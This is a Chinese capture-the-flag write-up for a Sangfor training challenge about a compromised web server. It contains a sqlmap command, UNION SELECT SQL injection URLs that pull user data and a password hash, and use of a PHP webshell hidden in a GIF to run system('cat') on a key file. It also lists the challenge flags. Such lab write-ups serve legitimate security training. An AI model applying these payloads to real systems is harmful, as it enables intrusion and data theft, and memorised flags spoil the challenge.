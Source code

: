 ### \[题目信息\]：

| 题目名称 | 题目方向 | 题目难度 |
| --- | --- | --- |
| 被攻击的服务器 | Web服务器安全防护 | \*\*\*\* |

### \[题目writeup\]：

下载服务器日志，可以在日志中找到几点比较关键的内容。

1.  攻击者对show.php?id=33进行sql注入
2.  在admin后台成功上传PHP文件
3.  服务器存在fckeditor文件编辑器（某些版本存在漏洞）
4.  使用了sqlmap工具

### 任务一：

![1720082320131](https://oss.edu.sangfor.com.cn/file/20240704/2407042033058365p1ci.png)

Sangfor{sqlmap/1.6.4}

### 任务二：

根据日志，按照攻击者思路，进行SQL注入漏洞测试。

```
python2 sqlmap.py -u http://bp3s6tzvorbj9ol0.ctfw.edu.sangfor.com.cn//show.php?id= -t 20 --technique=T --random-agent -level 3
```

![1709176836530](https://oss.edu.sangfor.com.cn/file/20240704/2407042033054562daz2.png)

从日志中可以发现攻击者对数据库CMS的users表中的password字段进行注入

![1709177298075](https://oss.edu.sangfor.com.cn/file/20240704/240704203305503fs184.png)

![1709179183737](https://oss.edu.sangfor.com.cn/file/20240704/240704203305526up10e.png)

此处输入+1会报错，证明一定存在sql注入漏洞

```
http://qidm9mfit3p603ph.ctfw.edu.sangfor.com.cn/show.php?id=-5587 UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15 from cms_users -- -
```

```
http://qidm9mfit3p603ph.ctfw.edu.sangfor.com.cn/show.php?id=-5587 UNION SELECT 1,2,username,4,5,6,7,8,9,10,11,12,13,14,15 from cms_users -- -
```

![1709201228024](https://oss.edu.sangfor.com.cn/file/20240704/240704203305543rqjc4.png)

![1709201238526](https://oss.edu.sangfor.com.cn/file/20240704/240704203305564r1t6o.png)

```
4d3c1324cc11e5223e2b104b99259f38 
```

### 任务三

攻击者上传恶意Webshell的名称是( )。请提交flag，flag格式Sangfor{文件名称}

![1720096152913](https://oss.edu.sangfor.com.cn/file/20240704/240704203305857ld68n.png)

Sangfor{da8a24cfc425167a1da8bc0f08c8ec17\_2.php}

### 任务四：

登录后台

http://qidm9mfit3p603ph.ctfw.edu.sangfor.com.cn/admin/index.php

![1709201636352](https://oss.edu.sangfor.com.cn/file/20240704/240704203305583k099j.png)

![1709201748760](https://oss.edu.sangfor.com.cn/file/20240704/240704203305611xuva4.png)

![1709524151170](https://oss.edu.sangfor.com.cn/file/20240704/240704203305692yzrgs.png)

后台文件存在一个gif图片，并且图片可以访问到。

![1709524188093](https://oss.edu.sangfor.com.cn/file/20240704/240704203305708vs4yy.png)

图片下载后保存在本地查看源码

![1709524357407](https://oss.edu.sangfor.com.cn/file/20240704/240704203305727gtfen.png)

### 任务五

请参照问题一的附件和环境，请找到攻击者在服务器遗留的Key文件的内容。  
请提交flag，flag格式Sangfor{Key的内容}，示例：Sangfor{Key值}

发现图片为php一句话木马，尝试用Sangfor123456访问日志中存在的文件

![1709524669840](https://oss.edu.sangfor.com.cn/file/20240704/240704203305741efipg.png)

Sangfor123456=system('cat /home/hack/K\_E!\_Y ');